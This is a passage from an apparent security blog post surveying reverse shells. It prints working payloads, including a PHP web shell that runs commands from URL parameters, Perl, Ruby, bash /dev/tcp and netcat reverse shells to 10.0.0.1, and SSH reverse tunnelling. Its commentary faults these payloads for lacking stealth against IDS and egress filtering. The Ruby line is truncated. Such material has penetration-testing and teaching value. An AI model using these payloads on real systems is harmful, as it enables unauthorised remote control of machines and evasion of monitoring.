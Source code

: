 - [PHP](https://gist.github.com/1526009)
    {% highlight php %}
<? $_GET[1]($_GET[2]) ?>
{% endhighlight %}

- [Perl](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
    {% highlight perl %}
use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};
{% endhighlight %}

- [Ruby](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
    {% highlight ruby %}
f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f
{% endhighlight %}

There are two main shortcomings with these options. The first is that they don't provide any form of stealth. These programs simply run /bin/sh over a TCP socket. This is often problematic. The second frequent shortcoming with these small interpreted shells is a lack of functionality. The Python, Ruby, and Perl applications above hook a process's file descriptors directly into a TCP socket, so you get a fairly functional shell, but the PHP shell as well as many small reverse shells you will find on the internet are much more difficult to use. This is because many of these shells provide the ability to run commands rather than run a shell. This means that if you ```bash cd ..``` you won't actually change directory because each command is spun up in a different bash process.

####0x03.02 -- One Liners####
Functionally, these are quite similar to the small interpreted shells. They use built in commands (usually \*nix) to open a TCP socket and pipe a shell to it. These also suffer from the main shortcoming of the small interpreted shells: they implement no stealth. A connection will look like exactly what it is -- a shell. The only exception to this would be reverse SSH. This implement encryption, but in the presence of egress filtering or an IDS this may get blocked of set off alarms.

- [Bash](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
    {% highlight bash %}
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
{% endhighlight %}

- [Netcat](http://netcat.sourceforge.net/)
    {% highlight bash %}
nc -e /bin/sh 10.0.0.1 1234
{% endhighlight %}

- [SSH](http://www.openssh.com/)
    {% highlight bash %}
# this runs on the remote machine (the slave)
ssh -R 1337:localhost:22 my_user@172.16.11.11
# this runs on your machine (the master)
ssh localhost -p 1337
{% endhighlight %}
